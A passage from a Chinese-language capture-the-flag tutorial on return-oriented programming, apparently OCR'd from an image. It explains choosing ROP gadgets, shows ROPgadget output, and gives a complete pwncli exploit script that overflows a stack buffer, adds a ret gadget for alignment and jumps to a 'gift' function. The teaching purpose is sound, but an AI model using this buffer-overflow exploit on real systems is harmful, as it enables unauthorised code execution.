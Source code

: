 -   gadgets 的目标是控制寄存器值或者调整栈结构
    -   即 gadgets 会包含 pop 等语句来控制寄存器值
-   gadgets 不能破坏我们 rop 链的执行流程
    -   即 gadgets 会以 ret 等语句来进行结尾

因此可以根据这些目标直接在 gdb / ida 中进行人工筛选。

当然这些繁琐的工作可以交给现有工具来进行：ropper 和 ROPgadget 都是很好的辅助工具，其中 ropper 适合对大型文件进行查找，而命令行下的 ROPgadget 则便于结合管道符和 shell 命令使用。

回到例题中，我们的目标是使栈对齐，故可以直接在栈上先放一个 `ret;` 语句，随后再跟上 gift 函数的地址：

第一步先找一个 ret 语句：

```sh
❯ ROPgadget --binary ./ret2text-rev --only "pop|ret" | grep ret
0x000000000040122c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122e : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401230 : pop r14 ; pop r15 ; ret
0x0000000000401232 : pop r15 ; ret
0x000000000040122b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040122f : pop rbp ; pop r14 ; pop r15 ; ret
0x000000000040115d : pop rbp ; ret
0x0000000000401233 : pop rdi ; ret
0x0000000000401231 : pop rsi ; pop r15 ; ret
0x000000000040122d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x000000000040101a : ret
```

这里最后一个 0x000000000040101a 就符和要求，接下来把这句接到原本的 payload 上，构成 ROP 链：

```py
#!/usr/bin/env python3
#-*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from pwncli import *
cli_script()
set_remote_libc('libc.so.6')

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc

i2b = lambda c : str(c).encode()
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
debugB = lambda : input("\033[1m\033[33m[ATTACH ME]\033[0m")

ret_addr = 0x000000000040101a

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8)
payload += p64(ret_addr)
payload += p64(elf.symbols['gift'])
s(payload)

ia()
```

